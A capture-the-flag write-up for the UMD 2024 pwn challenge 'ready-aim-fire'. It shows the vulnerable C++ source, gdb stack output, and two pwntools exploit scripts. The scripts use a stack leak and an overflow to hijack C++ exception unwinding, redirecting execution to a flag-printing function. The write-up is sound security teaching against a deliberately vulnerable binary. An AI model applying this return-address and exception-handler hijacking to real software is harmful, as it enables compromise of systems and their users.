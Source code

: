 ```yaml
---
title: ready-aim-fire
date: 2024-04-26T14:23:28+03:00
description: Writeup for ready-aim-fire [UMD 2024]
author: PineBel
tags:
  - pwn
draft: false
---
```

## Challenge Description

Firing your weapon when the spice harvester's shields are down requires exceptional timing.

### Intuition
This was a fun challenge which I solved in an unintended way, I will also present the intended solution because it's very interesting. 
We get the source code (and binary) for this challenge and we can see that we have a BOF in the fire method from the Cannon object and we also have a stack leak.

```C
void print_flag() {
    ifstream f{"./flag.txt"};
    if (!f.is_open()) {
        cout << "Failed to open flag file. Contact CTF organizers if you see this error." << endl;
    } else {
        string flag;
        f >> flag;
        cout << flag << endl;
    }
}


void direct_hit() {
    try {
        throw exception{};
    } catch (exception e) {
        cout << "Direct hit!" << endl;
        print_flag();
    }
}

class Cannon {
public:
    int bufIndex;
    char buf[32];

    Cannon(): bufIndex(0) {}

    void fire() {
        char c ;
        for (;;) {      
            cin.get(c);   
            if (c == '\n') {
                break;
            } else {
                buf[bufIndex++] = c;  // <-- overflow     
            }
        }
        if (bufIndex >= 32) {
            throw out_of_range{""};
        }
    }
};

void fire_weapon() {
    Cannon w;
    w.fire();
}

int main() {
    int target_assist;
    cout << "Quick! While the spice harvester's shields are down! Fire the laser cannon!" << endl;
    cout << &target_assist << endl;  // <-- stack leak 

    try {
        fire_weapon();
        cout << "Looks like you missed your opportunity to fire." << endl;
    }
    catch (exception e) {
        cout << "Seems like you missed." << endl;
    }
}
```

We can see that there is a constraint though, if we do a BOF, it will trigger an exception, which will be caught in the main function. Additionally, I noticed an extra function called 'direct_hit,' which suggested that we should attempt to redirect the exception thrown during a BOF into the catch block of 'direct_hit()' to print the flag (the intended solution). Unfortunately, my implementation didn't work as expected. Therefore, my next idea was to overwrite the return address of the main function with the address of 'print_flag()' after the exception was triggered.

### Solution

#### Unintended

When first trying to do the BOF with an input of length 33 the program crashed in the exception handler and printed "Seems like you missed.". 
If we give an input longer than 44 we will start overwriting the RBP and the program will crash. 
This happens because we don't return in a 'normal' way to main but through exception throwing.

We can see in the image below that the RBP value is used in the exception handler, which is called when the bufferIndex is greater than 32 (input: "A"*44 + "X"*8).

```c
0x00007ffd8a60ad20│+0x0000: "XXXXXXXX+'@"        ← $rsp, $rbp   <-- crash  
0x00007ffd8a60ad28│+0x0008: 0x000000000040272b  →  <main+270> mov rax, rbx  
0x00007ffd8a60ad30│+0x0010: 0x004023e630303030
0x00007ffd8a60ad38│+0x0018: 0x004023e600000000
0x00007ffd8a60ad40│+0x0020: 0x004023e600000000
0x00007ffd8a60ad48│+0x0028: 0x004023e600000000
0x00007ffd8a60ad50│+0x0030: 0x004023e600000000
0x00007ffd8a60ad58│+0x0038: 0x004023e600000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40283a <std::exception::exception(std::exception const&)+12> mov    QWORD PTR [rbp-0x10], rsi
     0x40283e <std::exception::exception(std::exception const&)+16> lea    rdx, [rip+0x255b]        # 0x404da0 <_ZTVSt9exception@GLIBCXX_3.4+16>
     0x402845 <std::exception::exception(std::exception const&)+23> mov    rax, QWORD PTR [rbp-0x8]
●→   0x402849 <std::exception::exception(std::exception const&)+27> mov    QWORD PTR [rax], rdx
     0x40284c <std::exception::exception(std::exception const&)+30> nop    
     0x40284d <std::exception::exception(std::exception const&)+31> pop    rbp
     0x40284e <std::exception::exception(std::exception const&)+32> ret    
     0x40284f                  nop    
     0x402850 <Cannon::Cannon()+0> endbr64 

```

To address this issue, we need a valid address for RBP after our input of length 44. This address can be the stack leak we get.

Because the stack leak address and the address where RBP is used are very close, we need to add an offset to avoid interfering with the stack when executing future instructions. Therefore, I subtracted 0x10 from the stack leak address.

The goal here is to make the exception execute normally so that we return to main and overwrite the return address of main. 
To achieve this, I needed to replicate the stack.

So I extended the payload with an address that was normally on the stack (this was found by running the program with gdb),
ensuring that the exception would execute smoothly and return in the the main function.
To complete the exploit, I added the address of the print_flag function to the end of the payload. 


```py
payload = b"a"*44 


print_flag = p64(0x4023e6) 
og_main = p64(0x4026be) # replicate stack 
 

target.recvuntil(b"Fire the laser cannon!")
recvline = target.recvline()
print(recvline)

stack_leak = target.recvline()
print(hex(int(stack_leak.decode(),16)))
stack_leak = p64((int(stack_leak.decode(),16))-0x10) 

payload += stack_leak 

payload += og_main   
payload += b"0000"+print_flag 
target.sendline(payload)
target.interactive()
```

Although I like this solution the intended one is more elegant.

#### Intended

The intended solution is similar to the unintended one but the main idea is to just overwrite the exception catch from fire() to the one from direct_hit().

```py
target  .recvuntil(b"Fire the laser cannon!")
recvline =  target.recvline()
stack_leak =  target.recvline()
stack_leak = p64((int(stack_leak.decode(),16))-0x10)
payload += stack_leak 
payload += p64(0x402547) # catch from direct_hit
target.sendline(payload)
```

Some other interesting things about the exception handler is that it works stack frame by stack frame. When an exception is thrown the current RIP searches in the .eh_frame section if it's in a catch block in that function. If it's found then it will jump to the catch block otherwise it will unwind the stack to clean it. After this it uses the stored return address to repeat this process on the next stack frame and comparing it to the .eh_frame table. The process goes on until either the exception is caught or it reaches the base exception handler.





